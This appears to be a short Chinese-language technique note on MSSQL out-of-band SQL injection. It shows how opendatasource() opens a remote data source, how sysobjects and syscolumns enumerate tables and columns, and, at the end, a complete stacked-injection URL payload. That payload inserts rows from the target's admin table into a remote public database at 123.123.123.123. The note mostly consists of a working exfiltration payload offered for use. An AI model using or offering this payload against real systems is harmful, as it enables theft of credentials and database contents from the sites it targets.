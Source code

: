 # mssql反弹注入

> 使用mssql独有的函数opendatasource()将查询结果插入到自己的公网数据库；

## mssql opendatasource()函数用法

```sql
opendatasource('sqloledb','server=公网地址,端口;uid=用户名;pwd=密码;database=库名')
```
该函数作用是打开远程数据源连接

## mssql获取表名

```
select id,name from sysobjects where xtype='U' -- xtype U是用户表 S是系统表
```
### sysobjects.xtype值的含义
> C = CHECK 约束  
D = 默认值或 DEFAULT 约束  
F = FOREIGN KEY 约束  
L = 日志  
FN = 标量函数  
IF = 内嵌表函数  
P = 存储过程  
PK = PRIMARY KEY 约束（类型是 K）  
RF = 复制筛选存储过程  
S = 系统表  
TF = 表函数  
TR = 触发器  
U = 用户表  
UQ = UNIQUE 约束（类型是 K）  
V = 视图  
X = 扩展存储过程

## mssql获取字段名
```
select * from syscolumns where id=581577110 -- (表的id)
```

## 堆叠注入执行insert语句

```sql
https://api.xxx.com/getUserInfo?id=1;insert into opendatasource('sqloledb','server=123.123.123.123,1433;uid=test;pwd=123456;database=db1').db1.dbo.table1 (col1,col2) select col1,col2 from admin;
```
